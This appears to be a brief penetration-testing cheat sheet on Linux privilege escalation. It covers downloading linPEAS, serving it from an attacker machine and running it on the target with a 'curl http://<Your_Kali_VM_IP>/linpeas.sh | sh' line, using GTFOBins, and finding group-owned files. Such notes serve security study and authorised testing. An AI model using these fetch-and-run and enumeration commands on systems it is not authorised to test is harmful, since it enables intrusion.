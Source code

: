 # Privilege Escalation:

## linPeas:
  1. wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh

  2. Once the linpeas.sh is downloaded, we can make our own webserver for the target machine to access. That way we can run the
     linpeas script in the target machine:
        python3 -m http.server 80
  3. From the target machine, we can download the linpeas script from the attacker machine's web server with a curl command:
        curl http://<Your_Kali_VM_IP>/linpeas.sh | sh

  4. make sure to modify permissions to allow us to execute linpeas.sh:
    chmod +x linpeas.sh
  5. GTFOBins: after linpeas has found a PrivEsc vulnerability, GTFOBins can be used to find out how to exploit the PrivEsc vulnerability:
  https://gtfobins.github.io/

## checking groups for editable binaries:
1. use 'id' command to check which groups the user is a part of. 
2. once we find the groups the a user is a part of, we can use 
    find / -group users -type f 2>/dev/null
to find the files that are owned by the group/user

